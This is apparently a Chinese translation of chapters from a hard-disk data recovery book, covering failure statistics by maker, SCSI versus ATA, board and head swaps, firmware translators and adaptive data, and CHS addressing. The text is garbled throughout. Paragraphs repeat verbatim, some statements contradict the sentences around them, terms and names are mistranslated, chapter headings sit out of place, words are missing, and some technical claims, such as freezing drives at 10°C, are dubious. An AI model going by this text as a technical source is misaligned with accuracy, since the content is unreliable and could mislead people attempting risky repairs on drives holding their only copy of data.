| 迈轮 (Maxtor) | 210 |
| 世纪 (Quantum) | 110 |
| 西部数据 (Western Digital) | 95 |
| 三星 (Samsung) | 49 |
| 希捷 (Seagate) | 42 |
| 康纳 (Conner) | 3 |

## 表 3.2 硬盘故障统计，按型号划分

| 硬盘型号 | 注册故障数 |
|---|---|
| IBM (IC35L040AVER07-0) 41.0 GB | 119 |
| 富士 (MPG3204AT) 20.4 GB | 83 |
| 富士 (MPG3409AT) 40.9 GB | 57 |
| 富士 (MPG3102AT) 10.2 GB | 54 |
| 富士 (MPG3204AH) 20.4 GB | 48 |
| IBM (DTLA307030) 30.7 GB | 37 |
| 富士 (MPG3409AH) 40.9 GB | 32 |
| IBM (IC35L020AVER07-0) 20.5 GB | 31 |
| 富士 (MPE3204AT) 20.4 GB | 29 |
| 希捷 (340016A) 40.0 GB | 28 |

从这些表中提供的数据可以看出，三星似乎是最好的厂家。然而，我和许多人一样，对它有强烈的偏见，而故障数量较小可能是此类硬盘普及率较低的结果。

点在于，所有厂家偶尔都会制造糟糕的型号。此外，故障原因通常位于硬盘之外。因此，问题的更准确的表述是：哪种硬盘成功恢复的概率最大？

我向 ACE Lab 的首席工程师谢尔盖·亚茨恩科 提教了这个这个问题，他恢复过成千上万块硬盘。根据他的回答，我可以为你提供几个建议：

更容易恢复的硬盘列表（换句话说，如果发生问题，容易选择磁头组件，且数量相对较少的）如下：

- 希捷 (Seagate)
- 三星 (Samsung)
- 日立-IBM (HGST)
- 富士 (Fujitsu) (2.5")
- 东芝 (Toshiba) (2.5")

尽管东芝的型号有一个关于主轴轴承漏油的严重问题，因为与其他型号相反，它的核心不是焊接的，而是胶粘的。这些硬盘的尺寸和厚度也大得多。以下硬盘在恢复过程中会导致很多麻烦：

- 迈轮 (Maxtor)：这些硬盘由于写入操作故障和磁头不稳定，让我不开心了一段时间。
- 西部数据 (WDC)：对于这些型号，很难选择可用的磁头，并在某些情况下难以恢复工程区的功能。此外，它们具有静态翻译器，这导致在翻译器模块和工程区坏道表损坏时无法读取用户数据。
- 世纪 (Quantum)：尽管这家公司已不存在，但它的硬盘继续发生不可逆的故障。最有效（尽管不是产量最高）的恢复方法是将硬盘放在冰箱里冷冻。在某些情况下，在 10°C 下冷冻的硬盘在小时后开始提供数据。然而，这个主意并不灵。更换磁头很复杂，如果硬盘有三个或更多磁头，就变得不现实了（技术上总是可能的，但价格变得不现实）。

如果你有世纪硬盘，我强烈建议尽快处理掉。迈轮和西部数据也不急于解决它们的技术问题。自然地，很难产生客观的评估；然而，根据我在实践中的观察，情况正如我描述的那样。

一些硬盘和光驱支持 ATA 接口和 ATA 封装接口 (ATAPI)——即 IDE；其他型号支持 SCSI。串行 ATA (SATA) 的出现会改变这一领域的力量平衡吗？预测未来是不可能的；然而，在本节中我将通过比较这两个接口的功能来尝试对这个问题给出答案。

SCSI 与 ATA 接口之间长期的“星大战”仍在继续。ATA 标准的最后版本在功能上日益接近；然而，该标准在取得最终胜利之前还有很长的路要走。SCSI 最初是根据要求开发者选择商品无论价格如何的规则设计的。它在高端服务器市场占据着稳固的地位，并且不会失去这些地位。ATA 在

（……）被设计为单用户机器的低端解决方案。尽管技术取得了进步和改进，它在理念上仍然是一个有缺陷的接口。

尽管如此，如果 ATA 提供的功能满足了你的需求，为什么要为 SCSI 溢价呢？

SCSI、ATA、ATAPI、IDE、EIDE —— 即使是经验丰富的专家，也难以理解这堆技术的细节。我将尝试用通俗的语言来解释它们。

SCSI 代表小型计算机系统接口（small-computer system interface）。根据设计，它是一个直接集成在外设设备中的智能控制器，支持一套适用于所有此类设备的统一控制命令。SCSI 实际上是一台微型计算机，但它的性能与 Intel 8086 相当。当 SCSI 刚出现时，这是一项重大的技术进步。在 SCSI 出现之前，每个设备都有自己的命令系统，这种系统侧重于执行基础操作：启动或关闭电机、读取索引、移动磁头到下一条磁道等。这不仅增加了编程的复杂性，而且对外设设备的控制器进行了重新设计。

SCSI 设备具有统一的逻辑寻址方案，独立于设备的几何结构，并有一级命令系统（例如读取扇区或一组扇区并开始播放）。接收到命令后，设备将其放入队列并释放总线；初始化器（可能是主机或另一个 SCSI 设备）切换以解决另一个问题。处理完成后，设备获取总线并将数据发送给初始化器，通过中断机制通知初始化器该事件。通过这种方式，多个设备可以同时使用总线，处理器的空闲时间减少到最低。

在电气方面，SCSI 是标准多芯或光纤线。总的来说，有很多竞争标准，没有必要详细研究所有的标准。只需指出，最新 SCSI 版本的物理数据传输率仍然完全满足现有设备的需求，甚至为未来留下了巨大的准备空间。某些电气

（……）支持长达 25 米的电缆和设备热插拔。然而，认为所有 SCSI 硬盘都是危险的谬误，这会对硬盘造成严重后果。SCSI 总线上的设备数量因接口而异。平均而言，在不严重损失数据传输率的情况下，总线上可以连接 7 到 15 个设备。

为了将 SCSI 控制器连接到处理器（CPU），必须使用复杂且昂贵的 SCSI 控制器，这严重限制了它的应用范围。

ATA 代表高级技术附件（advanced technology attachment），其历史与 IBM 和 IBM 的历史密切相关。为了克服 IBM XT 中使用的调频调制（MFM）驱动器的接口局限性，公司将新工业标准的开发责任交给了 T10 委员会（http://www.t10.org）。该委员会成功地解决了这个问题，尽管它没有提出任何革命性的思想，而是通过将硬盘控制器直接与设备集成，并通过行业标准架构（ISA）总线进行链式连接。这就是为什么 ATA 控制器如此廉价且简单。它们包含了内存芯片和地址描述符。自然，现代 ATA 控制器更加复杂；但进步尚未大幅提高其价格。


# 第 4 章：硬盘维修

即使是标准的第一个版本也与 SCSI 有许多共同特征。这些共同特征列表包括集成控制器、统一的命令集（尽管未达到 SCSI 的水平）以及连接总线的设备同时操作的可能性。然而，它没有“透明”寻址模式，并且缺乏延迟命令执行和请求队列机制。总线上的设备数量仅为两个。此外，在任何时刻只有一个设备可以运行；另一个设备被迫等待总线释放，而释放发生在数据交换周期完成后。通过这种方式，总线被多个设备同时高效使用，处理器的空闲时间减少到最低。

在电气方面，SCSI 是标准多芯或光纤线。总的来说，有很多竞争标准，没有必要详细研究所有的标准。只需指出，最新 SCSI 版本的物理数据传输率仍然完全满足现有设备的需求，甚至为未来留下了巨大的准备空间。某些电气支持长达 25 米电缆和设备热插拔。然而，认为所有 SCSI 硬盘都是危险的谬误，这会对硬盘造成严重后果。SCSI 总线上的设备数量因接口而异。平均而言，在不严重损失数据传输率的情况下，总线上可以连接 7 到 15 个设备。

为了将 SCSI 控制器连接到处理器（CPU），必须使用复杂且昂贵的 SCSI 控制器，这严重限制了它的应用范围。

ATA 代表高级技术附件，其历史与 IBM 和 IBM 的历史密切相关。为了克服 IBM XT 中使用的调频调制（MFM）驱动器的接口局限性，公司将新工业标准的开发责任交给了 T10 委员会（`http://www.t10.org`）。该委员会成功地解决了这个问题，尽管它没有提出任何革命性的思想，而是通过将硬盘控制器直接与设备集成，并通过行业标准架构（ISA）总线进行链式连接。这就是为什么 ATA 控制器如此廉价且简单。它们包含了内存芯片和地址描述符。自然，现代 ATA 控制器更加复杂；但进步尚未大幅提高其价格。

在电气方面，SCSI 是标准多芯或光纤。总的来说，有很多竞争标准，没有必要详细研究所有的标准。只需指出，最新 SCSI 版本的物理数据传输率仍然完全满足现有设备的需求，甚至为未来留下了巨大的准备空间。某些电气

（……）ATA/SATA 接口目前尚未消除的主要缺点是可连接的设备数量有限。只要你满足于一个硬盘和一个 CD/DVD-ROM 驱动器，就不会出现问题。然而，如果你想连接两个硬盘、一个 CD-ROM、一个 CD-RW 和一个 DVD-ROM，那么你的目标无法实现。

由多个硬盘组成的磁盘阵列在 ATA 控制器上基本上是不可能的，因为每个设备都需要自己的控制器，而每个控制器都需要自己的 DMA 和中断请求。此外，缺乏功能完整的调度器会对磁盘子系统的性能产生强烈的负面影响（特别是随机查询时）。自然，没有物理定律阻止一个正确的 RAID 控制器带有 ATA/

……正在开发的支持。在 ATA/SATA 中出现功能完备的调度器之前，制造商根本不愿意投入这种想法。如果投资者不愿意花钱，他们就不会花钱。

另一方面，为了连接 SCSI 设备，必须购买昂贵的控制器（像样的控制器 100 美元起，而集成在主板上的那些主要给人一种糟糕的印象）。尽管如此，SCSI 拥有的电气接口比 ATA 更多；此外，它们的兼容性情况要糟糕得多。连接新设备的程序也绝非易事。控制器板上有许多跳线帽（`jumper`），必须正确安装。错误的跳线帽配置可能会损坏设备及其控制器。安装 SCSI 驱动程序是一个独立的问题。如果没有某种“魔术仪式”，它永远无法成功完成。此外，许多 SCSI 驱动程序包含会导致数据损坏和丢失的 错误。总的来说，只有自杀倾向的人才会在没有相应知识和经验的情况下尝试安装 SCSI 设备。

如果你要连接的设备数量不多，那么 ATA/SATA 是家庭使用的最佳选择。这对于服务小企业需求的小局域网（LAN）中的服务器也是如此。对于具有令人印象深刻的磁盘阵列的高性能工作站和服务器，SCSI 可以认为是最佳选择。



在尝试修复逻辑损坏（例如无意中格式化或删除文件，这是本书主要讨论的损坏类型）之前，必须描述硬件故障后恢复硬盘的技术。这是必须的，因为这关系到你硬盘驱动器的存亡。

## 引言

硬盘的容量正在迅速增加；然而，它们的可靠性却以同样的速度在下降。一方面是数据密度，另一方面是竞争。大多数制造商使用廉价的备件，并实施远未成熟和可靠的工程解决方案。因此，用户（换句话说，像你我这样）必须尝试这些解决方案。为什么？无论如何，制造商和客户很少达成共识。能向用户提供的主要保证就是每日备份。如果你考虑到现代的可移动存储媒体提供了这种可能，这一点尤为真实。尽管如此，即使是高级人士经常忽视这种可能性，这很悲哀。

在硬盘发生灾难性故障后，大多数情况下，只要你遵循正确的计划，仍然可以恢复存储在那的数据。如果你还没有制定这样的计划，那么立即拒绝修复或纠正磁盘会好得多。不熟练的恢复尝试往往会让恢复过程变得复杂，有时甚至在实践中变得不可能。服务中心的专家不建议用户自行进行恢复和维修操作。如果不熟练的用户不遵循这一建议，他们将支付双倍甚至三倍的价格。在坏的情况下，服务中心可能会拒绝进行维修。注意，采取这一政策并不是因为服务中心仅仅担心用户在没有他们帮助的情况下操作。硬盘是复杂的设备，与收音机或其他家用电器不同，后者有时不需要特殊知识就可以维修。服务中心的工作人员拥有所有所需的设备、知识和经验。他们完整维修过数千块硬盘；因此，对于尝试自己维修硬盘的程序员或系统管理员来说，在服务中心成功恢复数据的概率要高得多——至少在理论上如此。在实践中，恢复费用往往超过所有合理的限制，且不能保证会有良好的结果。我见过很多案例，“业余人士”成功维修了被所谓“专家”弄坏的硬盘，而且是免费完成的。特别是，那些住在偏远地区、附近没有服务中心的人，必须依靠自己的技能。

在本章中，我将重点关注丢失数据的救援。硬盘的全面维修（少数例外外）要么是不可能的，要么在经济上是不合理的。因此，我的主要目标是解释如何临时恢复数据。在本章中，我将涵盖最常见的硬盘问题，并解释如何可能临时恢复。对于某些模型，可以在以下地址获取必要的诊断信息：`http://www.acelab.ru/products-en`。本章的核心思想是：即使在家庭环境中，硬盘维修也是可能的，这将！

### 硬盘内部

硬盘由密封块和一块打印电路板（PCB）组成。密封块包含（图4.1  典型的磁盘）：

硬盘由一个密封块和一块打印电路板（PCB）组成。密封块包含主轴驱动器；读写通道；微控制器（它是硬盘的“心脏”）；以及负责 ATA 接口的磁盘控制器。

### 硬盘维修原理

古代硬盘价格昂贵，使用了许多低集成芯片，并需要许多备件，这需要专家花费大量时间观察示波器。后来，集成水平开始快速增长，制造商开始使用标准芯片，产品价格大幅下降。目前，维修硬盘需要太多精力，并不合理。现在，恢复硬盘可用性的主要方法是更换整个控制器板。你拿另一块型号相同的硬盘（捐盘），并更换待修硬盘的控制器板（接收盘）。唯一的例外是小型维修，例如更换烧毁保险丝或晶体管，这些可以直接在硬盘上完成，无需更换整个控制器板。

仍然有一个问题没有答案——如果维修人员只更换故障板，为什么要付钱给他们而不是自己操作呢？

首先，必须找到一个合适的捐盘。对于不同的硬盘型号，控制器的兼容性差异很大。某些硬盘要求型号号中的所有数字完全匹配；没有人同意使用“盟友”控制器。即使型号号的所有字符和数字匹配，某些硬盘也会拒绝工作。在这种情况下，有必要尝试一个一个捐盘，希望找到一个合适的。每个特定型号的行为特征可以在专业工具包随附文档中找到，也可以在互联网上找到。

其次，除了电子组件外，控制板还包含 ROM 芯片，它可能存储了更多的自定义设置。硬盘不会轻易允许与外部板卡工作。绕过这个问题有两种方法：首先，如果接收盘仍然完好，可以读取其原始固件并将其与捐赠盘的控制板配合使用。如果这不起作用，重新焊接 ROM 可能会有所帮助。

第三，如果硬盘已经初始化且不拒绝与外部板卡工作，那么它的扇区编号系统可能被破坏，在这种情况下，整个文件系统将变成毫无意义的垃圾。为了清理这些垃圾，你必须使用你的直觉（或者，也许是脑细胞和灵巧的手）以及专业软件（最好的是 Data Extractor，作为 PC-3000 的一部分提供，它能够与标准的 IDE 控制器配合）。


通常情况下，成功修复不需要任何特殊工具。这项任务即使是普通专家也能完成。电子组件的故障不会导致任何严重危险。如果存储在磁片上的某些服务信息损坏了（“硬盘固件与自适应参数”），情况会变得更糟。这可能由于多种原因引起，例如固件错误、断电、冲击、震动或气密封块变形。在这种情况下，硬盘未初始化，或对所有命令均返回错误。某些硬盘会切换到用于写入服务信息的服务模式，这可以通过标准的 `ATA` 接口或 `COM` 终端进行。

`PC-3000` 包含了针对最流行硬盘型号的众多服务模块，所有注册用户都可以免费访问 FTP 服务器，可以在那里找到你可能需要的任何内容。作为一种变体，在选择固件更新模式后，可以使用磁盘制造商提供的专用程序。坦率地说，并不是所有模块都能通过此类工具进行修改；这些工具并非每个模块都可用。此外，如果工程区存在物理缺陷，或者驱动器在启动时“冻结”并拒绝切换到技术模式，这种方法将无用武地。

正针对这种情况，有一种热拔技术。在这种情况下，你需要两块硬盘——捐赠盘和接收盘。接收盘必须断电，然后可以拆电子板。将捐赠盘连接到 `IDE` 接口，然后通电。初始化过程完成后并接收到“就绪”信号后，发送 `ATA` 睡眠命令 (`95h`)，停止主电机驱动。所有其他组件保持通电状态。然后需要小心地拆下捐赠盘的控制器并将其安装在接收盘的气密封块上。最后，需要发送任何可以“唤醒”接收盘的命令。因为控制器已经初始化，将不会访问工程区，你将能够从硬盘中恢复灾难后幸存的所有信息。注意，由于使用的是标准的 `IDE` 控制器，必须在 BIOS 设置中禁用所有 `S.M.A.R.T.` 设置；否则硬盘将执行 `S.M.A.R.T.` 日志并将将其所有数据写入工程区。在这种情况下，兼容性要求与更换电子板的情况相同。基本上，没有必要将板卡移动到接收盘的气密封块上。你可以取接收盘的板，在捐赠盘的气密封块上对其进行初始化，然后将其返回初始位置。这种方法甚至更受欢迎，因为接收盘将与其原生的 `ROM` 工作。

某些故障需要打开气密封块，只有当你拥有灵巧的手时才能成功完成。常见的故障是一个或多个磁头损坏（图 4.2）。这可能是由于生产缺陷、电子击器件击穿或机械冲击引起的。如果磁头物理上没有受损，那么其中一个表面将无法访问，并且每隔 N 个扇区就会产生一个坏道，其中 N 是磁头的数量。某些型号具有六个磁头，但某些配备了单个磁头，在这种情况下，硬盘将无法无法读取工程区而变得无法使用。即使六个磁头中只有一个发生故障，所有信息也会变成垃圾。所有大于 3 KB (`512×6`) 的文件都将充满空洞。在这种情况下你该怎么办？唯一的选择是更换整个磁头组件。这项操作极其复杂，大多数初学者最终会弄坏硬盘。因此，强烈建议你永远不要在需要恢复的运行硬盘上进行练习。请在具有不同损坏程度且不包含任何有趣内容的硬盘上进行实操练习。

你需要一个型号相近的捐赠盘。型号号中的所有数字不需要完全匹配。尽管如此，磁头组件必须相似。某些磁盘将磁头停靠在磁片边界之外，而某些磁盘使用主轴附近的专用区域来实现此目的。这种情况是最困难的，因为在移动磁头时，你必须让它们跨越整个盘面。但必须避免磁头与盘面之间的接触；否则磁层将被破坏。





**图 4.2.** 带有开关/前放大器的磁头组件



**图 4.3.** 用于移动磁头 (1) 的自制工具

# 第一部分：数据恢复工具

只需要更换磁头组件。接收盘的原生固件保持不变。为了将磁头移动到停靠区，按相反顺序执行步骤。现在只需拧紧螺丝并关闭盖子。通电后后，可能会发出奇怪的声音，读取速度下降数倍。这是由于读写磁头的自适应参数导致的。通过调节固定的螺丝，可以稍微稳定读取。然而，时间很长；因此必须开始读取数据，从最重要和最有价值的文件开始。某些硬盘只有一个读写磁头，在这种情况下，更换盘片更为方便，如视频所示：http://pc3k.rsu/ru/video03_N4P_disk_swap.avi。

遗憾的是，这篇文章仅注册 `PC-3000` 用户可用。

# 第4章：硬盘维修 73

## 硬盘驱动器固件与适应数据

硬盘电子设备只是一个骨架。如果没有控制硬盘的固件，它们将无法运行。早期硬盘型号将所有固件存储在 `ROM` 中，这导致了不便并隐含了局限性。目前，硬盘采用了相同的方案：开发者留出一定的磁盘空间，并将所有所需的代码和数据放在那里。信息以模块的形式组织（对文件系统的浅层模仿）。这些信息由专门的操作系统控制。`ROM` 芯片仅包含基础代码，即硬盘的“基础”。某些制造商更进了一步，除了主加载器外，移除了 `ROM` 中的所有所有内容。

`ROM` 芯片既位于微控制器内部，也位于独立的电路板上。几乎所有的硬盘都有闪存 `ROM`；但并非所有硬盘型号都采用了焊接形式。如果安装了闪存 `ROM`，微控制器会从那里读取固件；否则，它将访问内部 `ROM`。

模块的一部分（以及存储在 `ROM` 中的信息）对于整个系列硬盘是相同的。这主要与控制固件集有关。这些模块是可交换的，一个硬盘可以使用另一个硬盘的模块工作而不会产生任何后果。

模块的一部分（或较少情况下存储在 `ROM` 中的信息）是为每批硬盘单独准备的。例如，硬盘的注册证书指定了磁头数、物理扇区和柱面。在初始化过程中，处理器轮询开关并计数磁头。如果磁头数量与证书上的数字不符，硬盘可能无法切换到就绪模式。制造商经常因为表面缺陷、磁头故障甚至营销考虑而禁用某些磁头。因此，会出现外观非常相似的“双胞胎”型号。对于此类“双胞胎”型号，直接更换电路是不可能的，必须修正工程数据。因此，可能再次需要 `PC-3000`。原则上讲，可以选择一个具有相同注册信息的供体硬盘。

每个硬盘样本独有的、且需要单独配置的模块（以及通常是 `ROM` 信息）是产生故障的根源。特别是，每块硬盘都至少有两个缺陷列表：主列表（`P-list`）和增长列表（`G-list`）。`P` 列表包含出厂测试过程中产生的坏道数量，而 `G` 列表由硬盘在运行过程中形成。如果向特定扇区的写入操作导致错误，则故障扇区将被重新映射到预留区的另一个扇区。某些硬盘支持“可疑”扇区列表：如果扇区在第一次尝试无法读取，它将被重新映射，重映射信息将存储在速率列表或 `G` 列表中。

所有这些过程对用户都是隐藏的。一个称为“翻译器”(`translator`)的特殊模块将物理地址转换为逻辑块数或虚拟柱面--磁头--扇区的编号——乍一看，扇区编号保持不变。这种机制在 `P/G` 列表被破坏或电路板被更换为具有不同配置设置的板之前之前一直正常运行。如果 `P/G` 列表存储在闪存 `ROM` 中（通常情况下如此），文件系统将完全崩溃，因为地址翻译将失效。尽管在扇区层面所有读取都正常，但无法确定哪个扇区属于哪个文件。

幸运的是，恢复翻译器并不，因为实际上所有的文件结构（以及文件）都包含典型的字节序列（签名）。首先，必须清除翻译器表（换说，生成空的 `P/G` 列表）；否则为供体标记为映射的扇区在另一个硬盘上将无法读取。不同的硬盘具有不同的映射扇区数量。某些硬盘可能不包含映射扇区，而另一些可能包含数千个。`P/G` 列表的格式随型号而异；因此，处理它们时建议使用 `PC-3000`。在紧急情况下，如果你没有 `PC-3000` 可，请至少使用硬盘制造商提供的带有未分配 `ATA` 命令的工具。

在研究文件系统服务结构（目录、`MFT`）时，必须确定子结构簇的数量。然后，你必须将簇转换为扇区并创建另一个列表。结果，你将获得两个列表，它们之间存在严格的关联。每个映射的扇区都会让后续“物理”地址和逻辑地址之间的距离增加一个。完成所需的计算后，就可以计算出所需的修正值并虚拟上恢复翻译器。在这里，我使用“虚拟上”一词是因为被替换的扇区的地址仍然未知，这意味着在恢复的数据中将存在“洞”。尽管如此，大多数信息将得到恢复。`PC-3000` 使用不断改进的先进算法自动恢复翻译器。然而，真正的大师可以自己编写用于恢复翻译器的实用程序。

# 第4章：硬盘维修 75

尽管如此，`PC-3000` 或其他专门的硬件软件组合都无法恢复适应数据（`adaptives`）。适应数据是最近才变得流行的。以前，单个硬盘设置被简化到较高层次，这并不会阻止信息的物理读取。更换电路板可能导致无法使用操作系统工具操作硬盘；然而，始终可以使用标准 `ATA` 命令逐扇区读取数据——或者至少在技术模式下的物理地址层面进行。

然而，信息密度稳步增长，公差变得越来越严苛，整个制造过程变得越来越昂贵。在批量生产中，无法生产出两个完全相同的硬盘。模拟元件（线圈、电阻和电容器）的特性不可避免地存在偏差，导致前放大器（开关）不可避免地不匹配。然而，这种情况是可以克服的，因为只有一个模拟元件，即读写磁头及其布线。更难克服的是磁层的不均匀性，这导致头部信号参数随磁头执行器的角度而变化。因此，制造商要么降低信息密度到可以忽略定位误差的程度（在这种情况下，为了获得相同的容量，需要在硬盘中安装更多盘片，这会增加成本并引发其他问题），要么提高制造质量（这在当今科学、技术和经济水平是不现实的）。因此，必须对每块硬盘进行单独校准，并写入所有适应设置。


适应数据的组成和格式随型号而异。粗略估计，它包括写入电流、通道放大、每个磁头的执行电压，以及每个区域每个磁头的参数修正表。如果没有原生适应数据，硬盘将无法工作！即使发生了奇迹，其他硬盘的适应数据适用，读取速度也会非常慢且错误很多。猜测适应数据是不现实的任务，在“家庭”条件下计算它们是不可能的。然而，它们是以某种方式生成的。理论上，填充适应数据表不需要硬盘以外的任何。某些硬盘型号固件包含特殊的自扫描程序，旨在实现这一目标。该程序实际上可以计算适应数据。它只有一个主要的缺点：在计算适应数据的过程中，它会破坏硬盘上的所有信息，这使得无法实现你的目标。

适应数据可以存储在硬盘的工程区（情况下更换电路板的效果非常好，尽管不支持热插拔）或存储在闪存 ROM 中。对于后者，在更换 PCB 之前必须重新焊接闪存 ROM。没有适应数据的硬盘非常罕见，目前几乎不存在。

# 第二部分：自动与手动硬盘数据恢复

## 第5章：手动数据恢复的基础概念

## 第6章：新技术文件系统 —— 内部与外部

## 第7章：NTFS 数据恢复

## 第8章：Linux/BSD 环境下的数据恢复

# 第5章：手动数据恢复的基础概念



长期以来，NTFS 竞争对手的主要王牌一直是以下论点：如果它挂了，你该如何恢复？事实证明，它确实经常挂。尽管 NTFS 具有良好的可靠性，但它并免受故障的影响——人为错误、病毒、断电、操作系统挂起、磁盘表面缺陷、电子电路故障。每一天，人类对计算机的依赖程度都在加深，硬盘容量迅速增长，其中包含的数据实际价值也日益提高。在大多数情况下，丢失的数据是不可替代的。

需求产生供给。专门从事数据恢复的公司如市场上如雨后春笋般出现。然而，只有在少数公司里才能遇到合格的专业人士。其余的只是在模拟狂热活动的幻象，并向客户开出天文数字般的账单，提供的服务质量平庸。然而，业余操作时代早已过去。业务需求已经发生了变化。黑客了解 NTFS 的细节，并记录了它的关键结构。此外，一套用于手动恢复的优秀工具集也出现了。最后，在数据恢复的斗争过程中，最近积累了大量的经验。在本章中，我想与你们分享部分经验。

首先也是——不要恐慌！要继续恢复丢失的数据，你必须保持清醒的头脑。无理的狂热活动只会让情况变得糟糕。

如果你不确定是否可以完全依赖任何自动化工具，请不要使用它们。这种“治愈”的后果可能是灾难性的，而“恢复”的结果可能是不可逆的。那些身处未知来源公司并使用相同自动化工具的“专业人士”也是如此，你甚至可以在没有他们帮助的情况下使用这些工具。其中一些甚至尝试自己创建所需的工具。这些工具通常从出生之起就是不可用的，但公司会有多大的自豪感啊！这是一个展示公司有多酷的令人印象深刻的工具。尽管你仍然决定使用这些论点，但也只有 `EasyRecovery` 和 `GetDataBack`。这些工具是由真正的专业人士与原始 NTFS 驱动程序的开发者合作开发的。相信我，他们对内部结构和特定的行为特征了如指掌。这些程序是市场上最好的（就与自动恢复相比）。

不要在要恢复的磁盘上写入任何内容，并阻止所有应用程序写入。如果你不小心从系统磁盘上删除了文件，不要以官方推荐的方式关闭 Windows。按下重置按钮好得多。为什么我给出这种“非法”建议？在正常关闭时，系统会将当前配置保存到磁盘，这大大增加了被删除文件被不可逆覆盖的风险。

不要通过反复尝试读取坏道来折磨它们；这只会将坏道扩大到相邻扇区并损坏磁读头。在此类操作之后，良好的扇区也将变得不可读。更好的做法是从禁用控制代码的硬盘进行长读取，因为控制器将返回受损扇区中剩余的所有内容（注意，故障通常只影响几个字节）。

如果硬盘发出点击声或刮擦声等可疑噪音，请立即关闭电源。再次，防止系统向磁盘写入任何内容，因为硬盘可能随时彻底坏掉。在这种情况下，电子领域的专家将无法恢复它。

仅在原生控制器上恢复 SCSI 磁盘（特别是 RAID），因为不同的控制器使用不同的地址翻译方法。如果控制器坏了，要么修理它，要么找一个完全相同的进行更换。IDE 磁盘在这方面的情况要简单得多，因为它们的控制器是非常标准化的。然而，对于大硬盘（超过 528 MB），存在很多问题和困惑，因为它们取决于特定的 BIOS 和所选的操作模式（正常、LBA 或大）。如果正在恢复的磁盘在 `Rocket` 或 `OnDisk` 等自定义驱动程序的控制下运行，该驱动程序必须位于启动磁盘（启动光盘）上，从那里进行恢复。

最后，如果你未能恢复数据，请不要陷入绝望。尝试保持乐观，并在生活中发现美好的事物，即使一切都无可期待。

## 磁盘结构基础

从物理上讲，硬盘是一个密封的外壳，内部包含一个或多个单/双面盘片，在主轴上旋转。数据通过一组磁头进行读写，每个磁头负责一个盘片表面。信息以称为*轨道*的同心圆环形式形式存储。位于所有盘片中心等距离的轨道形成一个圆柱。通过径向划分获得的轨道片段称为扇区。在现代磁盘中，每条轨道的扇区数量不是恒定的。相反，它随着距离盘片中心的增加而直接增长，以支持恒定的线性扇区大小。轨道和头的编号从零开始，扇区编号从一开始。对于硬盘，扇区大小等于 512 字节。

硬盘从软继承的第一种扇区寻址方法是 CHS 寻址。CHS 代表柱体–头部–扇区，是因为经济原因出现的。以前，寻址的扇区对应于物理现实。这简化了磁盘的结构，降低了价格，因为需要控制器。然而，每条轨道的扇区数量不是恒定的。这种方法对程序员来说是非常不方便的。磁盘的其他所有方面都是缺点。这使得磁盘受限于它们。某些磁盘支持一种特殊的 ATA 命令——初始化设备。该命令确定磁盘的几何结构。控制器根据磁盘总大小计算出柱体的数量。顺便说一下，可以使用 `SET MAX` 命令程序地更改磁盘大小。

## 第 5 章：手动数据恢复的基本概念 83

尽管 CHS 转换已经过时（2001 年 6 月采用的 `ATA/ATAPI-6` 规范的设备不再需要支持它），但在操作系统的许多结构中仍然可以遇到它——例如，在分区表和引导扇区中。因此，详细考虑这个主题是明智的。

在接口层面，扇区地址的传输如列表 5.1 所示。

### 5.1.CHS 模式下 IDE 磁盘的接口

| 端口 | 数值 |
|---|---|
| `0172/01F2` | 扇区数量 |
| `0173/01F3` | 扇区号（位 0-7） |
| `0174/01F4` | 柱面号（位 0-7） |
| `0175/01F5` | 柱面号（位 8-15） |
| `0176/01F6` | 头号（位 0-3），总线上的驱动器（位 4），CHS/LBA 模式（位 6） |

相反，BIOS 的服务函数以略不同的方式处理磁盘，如列表 5.2 所示。

### 5.2. INT13h BIOS 中断的接口

| 寄存器 | 数值 |
|---|---|
| `AL` | 待处理的扇区数量 |
| `CH` | 柱面号（位 0-7） |
| `CL` | 柱面号（位 6-7），扇区号（位 0-5） |
| `DH` | 头号 |
| `DL` | 总线上的驱动器 | `80h` |

